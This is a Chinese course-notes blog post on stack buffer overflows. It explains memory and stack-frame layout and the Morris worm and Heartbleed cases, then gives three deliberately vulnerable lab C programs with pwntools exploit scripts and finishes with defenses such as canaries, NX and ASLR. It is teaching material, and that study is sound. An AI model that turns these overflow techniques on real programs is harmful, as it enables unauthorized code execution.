






> 少年心性岁岁长，何必虚掷惊和慌。
> 皆是我曾途径路，不过两鬓雪与霜。

<!-- more -->

原文是几年前写的栈溢出那一节课和作业的整理，后来公司里做知识分享的时候顺便拿来用了，当时重写了一遍，感觉重写后的更清楚，把原理和HW放在一起了。

以下是原文的引言：

是对这学期上的Software Security课程的一个整理，讲道理上课的时候听的不是很认真，但是感觉这门课还是很值得复盘整理一下的，于是写了这个系列的note，希望我能早点更完。一些依托于助教的虚拟机的服务器端的HW就没法复现了，可惜。

这个[github](https://github.com/AshenAshes/Software-Security)是和这个项目一起的。

## 概念

Buffer Overflow，即缓冲区溢出。在存在缓存溢出安全漏洞的计算机中，攻击者可以用超出常规长度的字符数来填满一个域，通常是内存区地址。在某些情况下，这些过量的字符能够作为“可执行”代码来运行。从而使得攻击者可以不受安全措施的约束来控制被攻击的计算机。

C语言中存在很多有安全漏洞的库函数，由于不进行边界检查，存在着buffer overflow的风险：

```c
int main(...){
    char buffer[100];
    ...
    strcpy(buffer, argv[1]);    //buffer overflow
    strcat(buffer, argv[2]);    //buffer overflow
    gets(buffer);               //buffer overflow
    fgets(buffer, 200, badfile);       //buffer overflow
}
```

以上是一些典型的会造成buffer overflow的例子。

## 历史上的一些Buffer Overflow攻击

### Morris蠕虫

1988年，美国康奈尔大学一年级研究生罗伯特·莫里斯编写了一个只有99行的程序，它利用了Unix系统中的缺点，用Finger命令查联机用户名单，然后破译用户口令，用Mail系统复制、传播本身的源程序，再编译生成代码。这次攻击造成了当时数千台计算机瘫痪，损失近亿美元。

Morris蠕虫利用到了当时finger进程的一个漏洞，finger命令用来查找并显示用户信息，系统管理员通过使用该命令可以知道某个时候到底有多少用户在使用这台Linux主机。当时，用于进行finger服务的远程计算机进程,使用了标准C库函数**gets**。gets函数的作用是从输入流中读入一个字符串，但是gets()函数并不检查缓冲区的空间，事实上它也无法检查缓冲区的空间。如果函数的调用者提供了一个指向堆栈的指针，并且gets函数读入的字符数量超过了缓冲区的空间，gets()函数就会将多出来的字符继续写入到堆栈中,这就覆盖了堆栈原先的内容。 

```c
//finger进程包含下列代码
int main(int argc, char *argv[]) {
    char line[512];
    …
    gets(line); //会造成buffer overflow
    …
}
```

通过覆盖堆栈的内容，攻击者可以借此植入恶意代码并改变程序的控制流，使得其开始执行恶意代码。Morris蠕虫通过这种方式获得shell权限并替代正在运行的程序，然后向网络中的其他计算机继续发起finger请求，以感染其他更多的计算机。

### Heartbleed漏洞

Heartbleed(心脏出血)，是一个出现在加密程序库OpenSSL的安全漏洞，该程序库广泛用于实现互联网的传输层安全（TLS）协议。它于2012年被引入了软件中，2014年4月首次向公众披露。只要使用的是存在缺陷的OpenSSL实例，无论是服务器还是客户端，都可能因此而受到攻击。此问题的原因是在实现TLS的heartbeat请求时没有对输入进行适当验证（缺少边界检查）。

Heartbleed漏洞，这项严重缺陷(CVE-2014-0160)的产生是由于未能在memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪OpenSSL所分配的64KB缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次64KB的速度进行泄露。

良性请求:



恶性请求：




## 基础知识

我们一般通过覆盖栈内存来利用buffer overflow进行attack。先讲一些涉及到的基础知识。
 
### 程序内存布局
一个程序的内存布局及其存放内容：

(高地址)

- Stack： 局部变量、返回地址、参数…
- Heap：动态内存分配
- BSS：未初始化的static/global变量
- Data segment：已初始化的static/global的变量 
- Text segment：程序的code

(低地址)


### 栈内存布局

这样的程序：

```c
int func(int a, int b){
    int x, y;
    x=a+b; y=a-b;
}

int main(){
    func(2,3);
    return 0;
}
```

main调用函数func时，栈会为此次函数调用在栈顶分配一块内存，依次压入：
- Arguments 参数，从右往左 
- Return address 函数的返回地址，即该函数执行完成后要执行的下一条指令的地址 
- Previous frame pointer(ebp) 上一个stack frame(栈帧)的帧指针 
- Local varibles 函数内的一些局部变量 

如下图所示：


对应的汇编代码：

### Frame Pointer帧指针

栈的生长方向是从高地址向低地址。

帧指针ebp(in 32bit)，rbp(in 64bit)。

frame pointer(ebp)是用来access内存域内的局部变量的，在汇编代码中，function域内的局部变量都是通过ebp+栈上偏移量来表达的(寄存器相对寻址)。

因为存在嵌套调用，比如a函数调用b函数，b函数调用c函数，为了快速定位函数内部的局部变量在内存上的位置，每个函数域都有自己的ebp，在进入另一个域后需要先Push前一个域的ebp，再set自己的ebp。相当于各个函数划分stack memory为不同的stack frame，各个frame有自己的frame pointer，即ebp。

### Stack Pointer栈指针

栈指针esp(in 32bit)，rsp(in 64bit)。始终指向栈顶。

Push pop 
 
### 汇编指令

在实际汇编指令操作中，一个func被call会经历：
- push参数入栈 
- call func命令，然后PC跳转到func开头 
- push ebp(push前一个frame的ebp) 
- mov esp, ebp(把当前栈顶位置赋值给ebp) 
- 一堆函数内部过程 
- leave命令 
- ret命令 

这里涉及到了三个汇编指令,call、leave和ret。

#### call指令

包含两步操作：
1) push $eip, 相当于push了return address
2) 跳转到func的地址，即标号地址
 
#### leave指令

包含两步操作：
1) mov $ebp, $esp(esp指向当前frame的ebp)
2) pop \$ebp, 把previous ebp的值赋给$ebp，即是指向上一个frame的ebp，准备返回了
 
#### ret指令

就是pop $eip的操作，结束函数，根据return address返回
 
## 攻击原理

通过buffer overflow去overwrite栈上的return address并写入一段恶意代码，通过新的return address跳转到恶意代码起始处去执行恶意代码即可。


恶意代码可以引用一些现成的shellcode。

我们主要的工作是找到return address，如果堆栈地址是随机化的，我们可以通过暴力搜索，但一般是固定的，可以通过观察计算得到。

为了简化计算，我们可以在新的return address和malicious code间插入NOP，NOP是不会被执行的并会跳到下一条指令，这样我们就不需要精确地计算malicious code的起始位置，而只需要保证我们新的return address是在malicious code前就可以了。


## 攻击示例 

### Victim1

Overwrite变量值来拿到shell。

通过攻击改变程序的控制流。
 
#### 源代码

```c
//victim1.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define LENGTH 256

void hear(){
    char flag = 'N';
    char str[LENGTH]; 
    gets(str);
    if (flag == 'Y') {
        printf("[HACKED]\n");
        execve("/bin/sh", NULL, NULL);
    }   
}

int main(int argc, char* argv[]){
    printf("Hi. Tell me something, less than %d charecters ...\n", LENGTH);
    hear();
    printf("end\n");
    return 0;
}
```
 
#### 过程

栈的布局如下所示：


所以只要溢出一个字符'Y'来覆盖'N'即可。

#### 攻击脚本

```python
from pwn import *

#process的作用是运行本地的程序，如果要攻击远端服务器，可以用remote(ip, port)
io = process('./victim1')

payload = 'A'*256+'Y'
io.sendline(payload) #向程序发送内容作为输入流

io.interactive() #进入交互模式
```

然后可以得到shell。



### Victim2

Overwrite return address.

通过攻击使得程序泄露敏感信息flag。

#### 源代码

```c
//victim2.c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stddef.h>
#include <string.h>
#include <unistd.h>
#include "pwnable_harness.h"

#define LENGTH 256

//保存有敏感信息的文件,其内容为 flag{e4d1cb5fe367e7803af80db0bed7f0c4}
static const char* flagfile = "flag.txt"; 

/* Send the user the contents of the first flag file. */
static void giveFlag(void) {
    char flag[64];
    FILE* fp = fopen(flagfile, "r");
    if(!fp) {
        perror(flagfile);
        return;
    }

    fgets(flag, sizeof(flag), fp);
    fclose(fp);

    printf("[√] Your flag: %s\n", flag);
}

void hear() {
    printf("[*] Hi, Give me password! \n");
    
    char buf[LENGTH];
    read(STDIN_FILENO, buf, LENGTH*2);
    if (strlen(buf) > 10) {
        printf("[x] Invalid Password \n");
        exit(0);
    }
}

int main(int argc, char** argv) {
    hear();
}
```
 
#### 过程

hear()里的read有LENGTH*2-LENGTH长度的溢出空间，其栈内存布局为：


为了拿到flag文件的内容，我们的目标是去执行giveFlag()，所以用giveFlag()的地址去覆盖hear()的return address即可。

通过gdb去拿到giveFlag()的地址：

> gdb是 Linux 平台下最常用的一款程序调试器。可以用来进行启动程序、设置断点、单步调试、查看变量、反汇编等操作。



可以看到giveFlag函数在内存的起始地址是0x080486a6。

buffer的长度256+ebp的4字节+new return address构造payload，因为对buf有长度检查，所以前面要插入一个'\0'。这样去构造即可。
 
#### 攻击脚本
```python
from pwn import *

io = process('./victim2')

#p32的作用是将一个数字转换为字符，0x080486a6会被转换为'\xa6\x86\x04\x08'，倒序是因为linux程序是小端规则的
payload = 'A' + '\0' + 258*'A' + p32(0x080486a6) 
io.sendline(payload)

io.interactive()
```

结果长这样： 



### Victim3

构建Stack frame。

通过攻击使得程序泄露敏感信息flag。
 
#### 源代码
```c
//victim3.c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stddef.h>
#include <string.h>
#include <unistd.h>
#include "pwnable_harness.h"

#define LENGTH 256

//保存有敏感信息的文件,其内容为 flag{c92ecee2359e0e5a41f1f0348a525417}
static const char* flagfile = "flag.txt";

/* Send the user the contents of the first flag file. */
static void giveFlag(void) {
    char flag[64];
    FILE* fp = fopen(flagfile, "r");
    if(!fp) {
        perror(flagfile);
        return;
    }

    fgets(flag, sizeof(flag), fp);
    fclose(fp);

    printf("[√] Your flag: %s\n", flag);
}

void hear(char* arg){
    char str[LENGTH];
    strcpy(str, arg);
}

void handle_connection() {
    printf("[*] Hi, Give me something to overflow me!\n");
    char secret[LENGTH];
    read(STDIN_FILENO, secret, LENGTH+1);
    hear(secret);
}

int main(int argc, char** argv) {
    handle_connection();
}
```

#### 过程

栈内存布局为：


这题只有一个字节的溢出空间，可以修改handle_connection和hear两者frame内的ebp地址的最低位字节。

思路是这样的：handle_connection()中读入257个字符，进入hear()后，str所在的buffer读入了这257个字符，hear()的frame部分的ebp的最低位被修改。为了保证hear()中的strcpy()能够顺利执行，我们输入的第257位字符一定要是终结符。这样程序才不会发生错误。

当hear()执行完返回时(即执行leave指令的第二步pop \$ebp)，这个错误的old ebp会被pop给$ebp。回到handle_connection()的frame，handle_connection()执行完毕返回时(即执行leave指令的第一步mov $ebp, $esp)，栈指针esp会指向这个错误的ebp位置，然后执行ret指令时也会pop错误的return address。我们的目标就是让程序能够在这一步跳到giveFlag()函数。

由于第257位字符是终结符0，这代表old ebp的最低位字节的地址被修改为'\x00'（在C中，'\0'='\x00'），那么被修改后的old ebp一定小于原先的old ebp。也就是说执行完handle_connection()的leave的第一步后，esp的位置应该在secret处(因为secret有256个字节长，基本可以确定范围)。可以在payload中加入giveFlag()的地址*n，只要被修改的ebp指向其中的任意一个giveFlag()地址开头，那么一定会pop地址给PC，进而执行giveFlag()。

所以我们保证修改后的ebp指向giveFlag()地址开头即可，先假设payload=addr32(giveFlag)*64，要计算一个偏移量来构造payload。

gdb打断点看一下函数执行到handle_connection()域时的ebp和esp的值：


\$ebp = 0xffffcb4c，\$esp = 0xffffca4c，那么修改后的$ebp=0xffffcb00。0xcb00-0xca4c=180为4的倍数。所以修改后的ebp能刚好指向giveFlag()的开头，所以偏移量=0。

进而可以构造payload。

即使开启了ASLR，但偏移量总有可能是0，所以也不需要修改，多attack几次就能拿到flag。

在本地的结果：


 
#### 攻击脚本
```python
from pwn import *

io = process('./victim3')

payload = p32(0x080486a6)*64+'\0'
io.sendline(payload)

io.interactive()
```

## 防御手段
### Canary
在ebp下面放一个字作为canary,在程序调用结束之前(leave ret之前), 检查栈上的canary与寄存器中的canary是否相等，若不相等则调用中断程序。

攻击方式：printf格式化字符串漏洞攻击拉出canary。

### DEP(NX)
指定内存要么为RX(可读可执行)，要么为RW(可读可写)。

攻击方式：Code reuse attack, e.g., ret2libc

### ASLR
Address Space Layout Randomization(ASLR),地址空间布局随机化,每次程序运行时，其分布不完全固定而是随机的，那么我们无法确定return address，从而难以攻击。ASLR只打乱Stack区和lib，其他的如Heap和Text区并不会被打乱。

攻击方式：brute force，ret2ret，ret2pop，ret2esp之类的


## 参考资料
[1] 老师课件02 
[2] https://www.jianshu.com/p/4c0a30e7ddd2